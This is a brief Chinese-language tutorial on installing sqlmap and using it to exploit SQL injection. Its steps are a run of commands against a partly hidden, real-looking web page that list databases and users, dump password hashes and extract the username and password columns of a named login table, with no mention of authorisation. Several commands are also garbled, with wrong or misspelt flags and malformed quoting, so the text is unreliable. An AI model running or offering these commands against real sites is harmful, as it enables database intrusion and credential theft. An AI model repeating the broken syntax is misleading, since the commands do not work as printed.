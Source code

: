 # SQL MAP安裝與使用

## 介紹 <a id="jie-shao"></a>

SQLMAP是一款非常強大的開源滲透測試工具，用於自動檢測和利用SQL注入漏洞控制數據庫服務器的過程。它配備了一個強大的檢測引擎，由Python語言開發完成，通過外部連接訪問數據庫底層文件系統和操作系統，並執行命令實現滲透。

## 安裝方法： <a id="an-zhuang-fang-fa"></a>

cmd

`pip install sqlmap`

##  漏洞檢測 <a id="lou-dong-jian-ce"></a>

 cd去到Python環境sqlmap文件夾下，運行命令：

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"`**

 1.獲取所有數據庫

 參數：--dbs

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"--dbs`**

 2.獲取當前數據庫

 參數：--current-db

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"--current lab`**

 3.獲取數據庫所有用戶

 參數：--users

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"--users`**

4.獲取數據庫當前用戶

參數：--current-user

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"--current-users`**

 5.獲取數據庫所有用戶和密碼

 參數：--passwords

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"--passwords`**

 **6.** 獲取數據庫所有表 參數：-D ahykd\_new --tables

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"-D ahykd_new-tables`**

 **7.** 獲取數據庫登錄表所有內容 參數：-D ahykd\_new -T usr --columns

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"-D ahykd_new -T usr-columns`**

 **8.** 獲取數據庫登錄表用戶名和密碼 參數：-D ahykd\_new -T usr -C "usr\_name,password" --dump

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"-D ahykd_new -T usr-C" usr_naem,password"-dump`**

